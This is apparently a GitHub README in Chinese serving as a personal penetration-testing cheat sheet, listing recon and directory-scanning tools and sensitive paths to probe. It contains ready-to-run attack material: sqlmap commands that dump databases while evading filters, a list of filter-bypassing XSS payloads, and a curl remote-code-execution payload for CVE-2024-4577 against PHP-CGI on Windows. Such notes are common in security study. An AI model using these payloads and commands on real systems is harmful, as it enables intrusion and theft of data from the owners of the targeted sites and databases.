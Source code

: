 # Hitmap-ver.1

## 掃描、資訊蒐集

### 工具
  - rustscan
    -  可快速掃出目標開了哪些 Port
    -  Kali 上面沒有，亦無法直接 apt install
    -  安裝 Step
        - Step 1. 複製網址到Kali的瀏覽器進行下載
            ```sh
            https://github.com/RustScan/RustScan/releases/download/2.0.1/rustscan_2.0.1_amd64.deb
            ```
        - Step 2. 開終端機
            ```sh
            cd Downloads
            ls
            ```
        - Step 3. 把下載的檔案開啟權限
            ```sh
            sudo chmod +x rustscan_2.0.1_amd64.deb
            ```
        - Step 4. 安裝他的套件
            ```sh
            sudo dpkg -i rustscan_2.0.1_amd64.deb
            ```
        - Step 5. 完成安裝 or 出現報錯
          - 沒報錯跳過這步 
            ```sh
            sudo apt update
            sudo apt upgrade
            ```
    - **使用方法**
      ```zsh
      rustscan -a ip or domain
      ```
      ![image](https://github.com/Kazusa613732/Hitmap-ver.1/blob/main/img/rustscan1.png)
      
  - nmap
    - **使用方法**
      - 作業系統、服務版本
      ```sh
       nmap -A ip or domain
      ```
      - 指定port
      ```sh
       nmap -A -p22,80,1000 ip
      ```
      - 很多...未來待補
        
  - nuclei
    -  弱掃工具（效果待確）
    -  Kali 上面沒有，可直接 sudo apt install nuclei
    -  **使用方法**
      ```sh
      nuclei -u url 
      ```
  - Wappalyzer（Chrome插件）
    -  可以看到網站是用那些框架、套件、部分版本
  - DotGit（Chrome插件）
    -  可以偵測到有沒有.git洩漏
    -  有的話，可以透過 Kali 安裝 Githack 來查看
    -  安裝
       ```sh
       git clone https://github.com/lijiejie/GitHack.git
       ```
    -  **使用方法**
      ```sh
      python Githack.py URL/.git
      ```
## 目錄爆破

### 工具
  - dirsearch
    - Kali 上沒有，可自行安裝
      ```sh
      sudo apt install dirsearch
      ```
    - **使用方法**
      ```sh
       dirsearch -u "url"
      ```
  - gobuster
    - Kali 上沒有，可自行安裝
      ```sh
      sudo apt install gobuster
      ```
    - **使用方法**
      - 待補
### 不該出現的頁面
  - .env
  - phpinfo
  - .git
  - CKfinder
  - cgi-bin
  - upload.php（進去看有沒有可以try的點）
  - login.php（進去看有沒有可以try的點）
  - .svn
  - etc..
  - 感覺奇怪的都去看

## Injection
### CRLF injection
  - [筆記](https://www.notion.so/CRLF-Injection-1b9997876c1380e4bc7cccad27ecd62f?pvs=4)
### SQL injection
  - [筆記](https://www.notion.so/SQL-Injection-1ba997876c138098bed3c44d005558b3?pvs=4)
  - 最最基本檢測方式
    - 在參數後輸入'進行測試，出現報錯、500error，基本上可以直接用SQLmap進行確認了
    - 利用不同編碼bypass
    - 'AND1=1，可測錯誤注入、盲注
  - SQLmap
    - **指令**
      ```sh
      #可以dump出所有資料庫名稱
      sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash --dbs
      #可以dump某一資料庫的資料表
      sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 --tables
      #可以dump出某一資料庫、資料表的欄位
      sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 -T tb名稱 --columns
      #可以dump出某一資料庫、資料表的欄位內容
      sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 -T tb名稱 -C c欄,c欄 --dump
      #其他參數
      --delay 1（延遲一秒）、--level 1~5、--risk 1~5（更多注入手段會更久）
      ```
  ### XSS
   - 常見Payload
     ```js
       #Basic
      <script>alert('XSS')</script>
      <scr<script>ipt>alert('XSS')</scr<script>ipt>
      "><script>alert('XSS')</script>
      "><script>alert(String.fromCharCode(88,83,83))</script>
      <script>\u0061lert('22')</script>
      <script>eval('\x61lert(\'33\')')</script>
      <script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
      <object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">
      
      #img
      <img src=x onerror=alert('XSS');>
      <img src=x onerror=alert('XSS')//
      <img src=x onerror=alert(String.fromCharCode(88,83,83));>
      <img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
      <img src=x:alert(alt) onerror=eval(src) alt=xss>
      "><img src=x onerror=alert('XSS');>
      "><img src=x onerror=alert(String.fromCharCode(88,83,83));>
      <><img src=1 onerror=alert(1)>
      
      #svg
      <svgonload=alert(1)>
      <svg/onload=alert('XSS')>
      <svg onload=alert(1)//
      <svg/onload=alert(String.fromCharCode(88,83,83))>
      <svg id=alert(1) onload=eval(id)>
      "><svg/onload=alert(String.fromCharCode(88,83,83))>
      "><svg/onload=alert(/XSS/)
      <svg><script>alert('33')
      <svg><script>alert&lpar;'33'&rpar;
      
      #div
      <div onpointerover="alert(45)">MOVE HERE</div>
      <div onpointerdown="alert(45)">MOVE HERE</div>
      <div onpointerenter="alert(45)">MOVE HERE</div>
      <div onpointerleave="alert(45)">MOVE HERE</div>
      <div onpointermove="alert(45)">MOVE HERE</div>
      <div onpointerout="alert(45)">MOVE HERE</div>
      <div onpointerup="alert(45)">MOVE HERE</div>
     ```
  ### XXE Injection
  ## CVE 2024-4577
  - 此弱點影響安裝於 Windows 作業系統上所有的 PHP 版本
    - PHP 8.3 < 8.3.8
    - PHP 8.2 < 8.2.20
    - PHP 8.1 < 8.1.29
  - 常見之 Apache HTTP Server 加上 PHP 組合
  - 所有版本的 XAMPP for Windows 安裝也預設受此弱點影響
  - **Payload&RCE**
    ```sh
    curl -o - "URL/php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input" --data '<?=`whoami & dir`;die();?>'
    ```
## LFI

## RF&一堆教材文件
 - https://github.com/swisskyrepo/PayloadsAllTheThings
